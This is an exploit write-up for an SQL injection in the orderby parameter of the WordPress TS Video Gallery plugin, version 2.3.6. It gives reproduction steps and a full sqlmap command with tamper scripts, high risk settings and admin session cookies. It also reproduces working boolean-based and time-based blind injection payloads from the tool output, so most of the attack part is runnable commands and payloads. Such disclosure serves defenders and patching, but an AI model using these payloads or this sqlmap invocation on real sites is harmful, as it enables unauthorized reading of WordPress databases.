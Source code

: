 #### Exploit Title: Wordpress Video Gallery - YouTube Gallery and Vimeo Gallery Plugin SQL Injection 
#### Date: 2024-07-05
#### Exploit Author: tmrswrr
#### Category : Webapps
#### Vendor Homepage: https://total-soft.com/wp-video-gallery/
#### Version 2.3.6

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Video Gallery > Create > Use Theme` and save it.

2. After saving, go back to TS Video Gallery and click the title: https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=asc

3. WordPress database error: [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\\\' desc LIMIT 15 OFFSET 0' at line 1]
SELECT `id`,`TS_VG_Title`,`TS_VG_Option`,`TS_VG_Sort`,`created_at` FROM wp_ts_galleryv_manager ORDER BY TS_VG_Title\\\' desc LIMIT 15 OFFSET 0

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/9.png">

5. Search for the `orderby` parameter.

### SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=desc" --batch --dbms=mysql --thread 10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 -p orderby --cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|0b78b25e2683d7f381967019db82b3f3fd9b06f1524ec128af92a74fe7c68e8f; \
wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|307f68044e4c2632757b13f86f770ceda3c9c7866a0b595b33a7a2f675224a15; \
wordpress_test_cookie=WP Cookie check; \
wp-settings-time-1=1720173805" --thread 10
```

### RESULT

sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
[08:37:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:37:45] [INFO] the back-end DBMS is MySQL
[08:37:45] [PAYLOAD] (seLecT/**/(cAsE/**/WHen/**/(veRSIOn()/**/liKe/**/0x254d61726961444225)/**/ThEN/**/0x54535f56475f5469746c65/**/elSE/**/(seLecT/**/6685/**/UNiON/**/seLecT/**/9990)/**/End))
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/10.png">


